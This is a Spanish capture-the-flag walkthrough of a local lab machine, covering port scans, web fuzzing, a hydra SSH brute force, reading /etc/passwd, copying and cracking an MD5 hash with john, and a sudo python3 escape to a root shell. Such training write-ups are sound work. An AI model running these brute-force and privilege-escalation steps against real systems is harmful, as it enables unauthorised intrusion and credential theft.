<p align="center">
    
</p>


Compruebo si está activa
```
ping -c 1 172.17.0.2
```

<p align="center">
    
</p>

---

## Enumeración
### Escaneo de puertos
- Primero hago un reconocimiento de puertos silencioso de los puertos abiertos
```
nmap -p- --open -sS --min-rate 5000 -n -Pn 172.17.0.2
```

<p align="center">
    
</p>


**Resultados del escaneo:**

| Puerto | Estado | Servicio |
| ------ | ------ | -------- |
| 22/tcp | open   | ssh      |
| 80/tcp | open   | http     |


Realizamos un segundo escaneo al puerto abierto, lanzando una serie de script por defecto de `nmap` y reconocimiento de servicios.
```
nmap -p22,80 -sVC --min-rate 5000 -n -Pn 172.17.0.2
```

<p align="center">
    
</p>


| Puerto | Estado | Servicio | Versión                        |
| ------ | ------ | -------- | ------------------------------ |
| 22/tcp | open   | ssh      | OpenSSH 9.2p1 Debian 2+deb12u3 |
| 80/tcp | open   | http     | Apache httpd 2.4.62((Ubuntu))  |


Lanzo un script de nmap llamado `vuln`, para enumerar si los servicios tengan alguna vulnerabilidad conocida.
```
nmap -p22,80 --script=vuln 172.17.0.2
```

<p align="center">
    
</p>

No nos detecta nada.


---


<h3><center> Análisis del servidor web HTTP (puerto 80)</center></h3>

Al introducir la IP como la dirección URL, la web nos muestra lo siguiente:

<p align="center">
    
</p>


Hago un reconocimiento de las tecnologías con las que está hecha la aplicación web.
```
whatweb http://172.17.0.2
```

<p align="center">
    
</p>


La aplicación web nos da una pista, pero como no se a lo que se refiere, realizo una enumeración de posibles directorios y ficheros que puedan estar en el servidor web.


#### Fuzzing Web

Primero vamos a usar la herramienta `dirb`, que realiza un escaneo rápido.
```
dirb http://172.17.0.2
```

<p align="center">
    
</p>

No nos encuentra nada. Por lo que utilizo otra herramienta para realizar `FUZZING WEB`. Voy a utilizar `gobuster`.

```
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x php,txt,asp,aspx
```

![[Pasted image 20250102153446.png]]

Tampoco nos encuentra mucho.


Como no se me ocurre nada más vamos a utilizar la información de la web, para ver si `a` es un usuario, por lo que realizamos un ataque de fuerza bruta para encontrar la contraseña del usuario `a`.


---

## Explotación

#### Hydra
Teniendo el diccionario de usuarios personalizado, realiza un ataque de fuerza bruta. 
```
hydra -l a -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 64
```

<p align="center">
    
</p>

Me encuentra la contraseña del usuario `a` que es `secret`. Así que confirmamos que `a` es un usuario. Procedemos a iniciar sesión en el servicio `SSH`, con estas credenciales.
```
ssh a@172.17.0.2     # Después ponemos la contraseña secret
```

<p align="center">
    
</p>


Somos el usuario `a`. Enumerando el sistema encontramos varios usuarios.
```
cat /etc/passwd | grep "/bin/bash"
```

<p align="center">
    
</p>

---

## Post-Explotación

#### Escalada de privilegios

Comprobamos que binarios puede ejecutar el usuario `a`.
```
sudo -l
```

<p align="center">
    
</p>

Me indica que el usuario `a` no puede ejecutar el comando `sudo`, por lo tanto, buscamos binarios con permisos de `SUID`.
```
find / -perm -4000 2>/dev/null
```

<p align="center">
    
</p>

No encontramos nada que nos pueda interesar. Así que toca enumerar el sistema.  Importante enumerar el directorio `/srv`, que es donde se guardan los ficheros asociados con el servidor
```
ls -la /srv/ftp
```

<p align="center">
    
</p>


Encontramos muchos ficheros, los descargamos para analizarlos. Salimos de la sesión `SSH` y utilizamos la herramienta `scp`
```
scp a@172.17.0.2:/srv/ftp/* .    # . indica ruta actual de trabajo
```

<p align="center">
    
</p>

Indagando un poco en los archivos  me llama la atención los ficheros llamado `retos`.
```
cat retos.txt
```
```
cat retos_asimetricos.txt
```

<p align="center">
    
</p>
<p align="center">
    
</p>

Y también veo el contenido delos demás ficheros.
```
cat hash_a.txt
```
```
cat mensaje_hash.txt
```
```
cat clave_aes.txt
```
```
cat hash_spencer
```
```
cat pista_fuerza_bruta.txt
```
```
cat original_a.txt
```

<p align="center">
    
</p>


Según los datos obtenidos podemos realizar una fuerza bruta con la herramienta `john` para crakear el hash relacionada con el usuario `spencer`.
```
john --wordlist=/usr/share/wordlists/rockyou.txt hash_spencer.txt --format=Raw-MD5
```

<p align="center">
    
</p>


Obtenemos las credenciales del usuario `spencer` por lo que podemos pivotar al usuario `spencer` con la contraseña `password1`
```
su spencer    # Después ponemos la contraseña passwrod1
```

<p align="center">
    
</p>


Pudimos pivotar al usuario `spencer`, por lo que ahora vemos los binarios que pueda ejecutar.
```
sudo -l
```

<p align="center">
    
</p>


Puede ejecutar el binario `python3` como cualquier usuario, por lo que ejecutaremos el binarios como si fuera el usuario `root`.
```
sudo /usr/bin/python3 -c 'import os; os.system("/bin/bash")'
```

<p align="center">
    
</p>


